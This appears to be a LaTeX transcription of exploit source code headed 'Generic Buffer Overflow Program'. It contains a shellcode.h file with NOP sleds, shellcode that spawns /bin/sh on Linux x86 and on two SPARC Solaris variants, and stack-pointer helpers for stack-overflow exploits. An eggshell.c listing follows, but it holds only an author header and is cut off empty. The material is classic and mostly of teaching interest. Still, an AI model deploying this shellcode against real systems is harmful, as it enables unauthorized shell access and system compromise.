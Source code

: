 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
\section{Generic Buffer Overflow Program}


\begin{lstlisting}[caption=shellcode.h,frame=single,frameround=tttt,breaklines=true]
#if defined(__i386__) && defined(__linux__)
#define NOP_SIZE        1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE        4

char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";

char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f"
  "\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c"
  "\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82"
  "\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82"
  "\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) 
{
  __asm__("or %sp, %sp, %i0");
}

#endif
\end{lstlisting}

\begin{lstlisting}[caption=eggshell.c,frame=single,frameround=tttt,breaklines=true]
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */


\end{lstlisting}
\end{CJK}
\end{document}
